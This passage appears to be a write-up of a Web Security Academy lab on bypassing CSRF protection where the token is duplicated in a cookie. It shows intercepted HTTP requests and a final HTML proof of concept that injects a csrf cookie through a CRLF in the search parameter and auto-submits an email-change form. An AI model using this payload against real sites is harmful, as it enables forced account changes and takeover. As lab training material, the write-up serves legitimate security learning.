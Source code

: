 ```
Cookie:  session=bCCp5JV9JjGZxlGw27DD0g8mwlKMdkod
```
Response:
```
HTTP/2 200 OK
Set-Cookie: LastSearchTerm=test
Set-Cookie: csrf=YOUR-KEY; SameSite=None; Secure; HttpOnly
```
Testing to see if, as long as they match, the two csrf's can be any value, they can:
```
POST /my-account/change-email HTTP/2
Host: 0ada00610488d3db81eaa3a600d70061.web-security-academy.net
Cookie: csrf=foo; session=bCCp5JV9JjGZxlGw27DD0g8mwlKMdkod
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="139", "Not;A=Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Origin: https://0ada00610488d3db81eaa3a600d70061.web-security-academy.net
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ada00610488d3db81eaa3a600d70061.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

email=Test%40email.com&csrf=foo
```

So this final payload should work:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ada00610488d3db81eaa3a600d70061.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="Test&#64;test&#46;com" />
      <input type="hidden" name="csrf" value="foo" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0ada00610488d3db81eaa3a600d70061.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=foo%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```

